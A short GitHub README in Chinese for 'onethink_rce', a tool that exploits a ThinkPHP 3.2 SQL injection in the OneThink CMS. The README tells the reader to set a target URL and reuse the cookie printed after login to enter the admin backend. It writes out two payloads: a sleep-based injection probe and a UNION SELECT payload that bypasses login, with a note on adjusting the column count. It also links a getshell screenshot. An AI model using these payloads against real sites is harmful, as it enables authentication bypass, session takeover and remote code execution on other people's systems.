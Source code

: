 # onethink_rce


十一假期看到的文章https://forum.90sec.com/t/topic/464

原理其实还是p牛发的那个thinkphp3.2注入漏洞，于是又简单的分析了一下。

写了一下利用工具。


需要注意的地方：
1、url = "http://www.xxx.com"    不解释  
2、print(s.cookies)              如果登录成功，那么这个打印出来的cookie就有用，替换cookie即可进入后台
3、payload 中的 ('username[]','like 1)and 1 in (2) or sleep(5)#'),  为注入漏洞的延时检测。
               ('username[]','like 1)and 1 in (2) union select 1,2,"",4,5,6,7,8,9,10,11#'), 为绕过验证登录语句
               字段数默认为11，我也见过13的。大家自行修改。
               

GETSHELL：
![](https://github.com/yuxiaokui/onethink_rce/blob/master/getshell.jpeg?raw=true)
